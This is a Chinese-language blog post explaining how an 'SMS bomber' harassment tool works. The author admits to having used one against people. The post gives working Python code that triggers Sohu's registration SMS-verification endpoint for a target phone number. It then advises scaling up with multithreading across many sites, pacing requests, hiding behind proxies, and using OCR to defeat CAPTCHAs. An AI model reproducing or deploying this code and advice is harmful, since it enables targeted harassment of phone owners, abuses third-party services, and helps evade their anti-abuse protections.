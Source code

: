 ```yaml
---
title: 短信轰炸机原理分析及简要实现
id: 1
categories:
  - Others
date: 2015-11-27 23:53:12
tags:
  - Others
  - Python
mathjax: true
---
```


很多情况下，我们会遇到一些讨厌的人，特别是那种电信诈骗的骗子，行骗方法歹毒低劣，十分令人恶心。然而我们又不能拿他们怎么办。这时候我们就会想起用电话轰炸机这个东西来打击报复。网络上也有过类似的比如“短信轰炸机”这种东西，我也用他来黑过一些人。据他们后来说他们收到的都是些注册会员啊，登陆啊之类的短信提示，十分的烦人。当时听上去就觉得这个东西真的很厉害。最近一个偶然的机会，我发现其实短信轰炸机这种东西原理也是十分的简单的，只要拥有一些基础的网页登陆的知识，理论上就可以实现写出自己的“短信轰炸机”。

## 原理

在我们注册一家网站的会员的时候，很多情况下我们需要输入我们的手机号来进行识别和绑定。通常的步骤是：(1)我们输入手机号;(2)系统会向我们的手机发送一条验证码;(3)我们将手机上收到的验证码输入到注册页面上来完成识别。明眼人一看大概就能看出其中的端倪。没错，我们就可以利用网站发送的验证短信，来作为我们的”轰炸引擎“。

## 基本步骤

步骤就是模拟登陆的步骤了，首先我们手动实现一次验证，并且用抓包工具截获他的http封包，获得post的数据，然后利用现有的编程工具，模拟请求即可。

## python简单实现

我模拟的是搜狐的注册申请，仅实现一次发送。
```python
import urllib,urllib2,cookielib
path='https://passport.sohu.com/signup/send_mobile_captcha'
number="18282828282"
cj=cookielib.CookieJar()
post_data=urllib.urlencode({'mobile':number,'captchaType':'1'})
opener=urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
opener.addheaders=[('User-agent','Opera/9.23')]
urllib2.install_opener(opener)
req=urllib2.Request(path,post_data)
response=urllib2.urlopen(req)
print response.read()
```
其中的post的数据是根据抓包抓来的数据来填写的，其他的就是简单的模拟登陆的东西。

## note

1. 实际应用中，需要使用多线程的技术申请多个网站来保证轰炸的密度。

2. 申请的频率不能太快，因为服务器端会有记录，申请太快会被拒绝服务的。

3. 通常会使用proxy代理http服务来隐藏自身信息。

4. 为了防止被利用，绝大多数的网站都会在申请时设置验证码环节来抵御我们这种恶意的申请。所以通常还需要结合OCR技术来识别验证码。
